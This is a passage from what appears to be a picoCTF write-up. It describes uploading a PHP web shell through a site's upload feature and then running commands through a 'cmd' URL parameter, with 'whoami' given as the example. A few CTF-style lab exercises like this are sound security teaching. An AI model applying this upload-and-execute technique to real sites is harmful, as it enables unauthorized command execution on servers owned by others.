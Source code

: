 Upload this file using the site’s upload feature.

![Uploading PHP](images/2nd5.png)

#### 3. Locate the Uploaded File

After uploading, we try accessing the uploaded file in a predictable upload folder like:

```
http://standard-pizzas.picoctf.net:54419/upload.php
```

We can now append commands to the URL using the `cmd` parameter, for example:

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=whoami
```

